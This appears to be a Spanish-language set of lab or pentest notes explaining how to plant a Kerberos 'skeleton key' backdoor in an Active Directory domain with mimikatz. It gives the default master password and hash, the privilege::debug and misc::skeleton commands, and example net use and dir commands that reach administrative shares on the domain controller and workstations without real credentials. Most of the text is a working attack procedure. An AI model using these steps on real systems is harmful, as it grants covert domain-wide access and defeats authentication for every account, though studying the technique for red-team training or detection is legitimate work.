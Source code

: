 Una puerta trasera Kerberos es mucho más sutil porque actúa de manera similar a un rootkit al implantarse en la memoria del bosque de dominios, lo que le permite acceder a cualquiera de las máquinas con una contraseña maestra.

La puerta trasera Kerberos funciona implantando una clave maestra que abusa de la forma en que AS-REQ valida las marcas de tiempo cifradas. Una clave maestra solo funciona con el cifrado Kerberos RC4.

El hash predeterminado para una clave maestra mimikatz es *60BA4FCADC466C7A033C178194C03DF6*, lo que hace que la contraseña -"*mimikatz*"

- Nos movemos al directorio **Downloads**
    
    `cd Downloads`
    
- Ejecutamos mimikatz
    
    `mimikatz.exe`
    
    ![image.png](image%2029.png)
    

- Miramos que los privilegios que tenemos . Tiene que contestar Privilege '20' OK
`privilege::debug`
    
    ![image.png](image%2030.png)
    

### **Instalación de la llave maestra con mimikatz**

- Ejecutamos el siguiente comando
    
    `misc::skeleton`
    
    ![image.png](image%2035.png)
    
    Ya estaría la llave maestra . la contraseña seria : `mimikatz`
    

Las credenciales predeterminadas serán: "*mimikatz*"

ejemplo: - Ahora se podrá acceder al recurso compartido sin necesidad de la contraseña de administrador`net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`

ejemplo: - acceder al directorio de Desktop-1 sin saber nunca qué usuarios tienen acceso a Desktop-1`dir \\Desktop-1\c$ /user:Machine1 mimikatz`

La clave maestra no persistirá por sí misma porque se ejecuta en la memoria, se puede programar o persistir usando otras herramientas y técnicas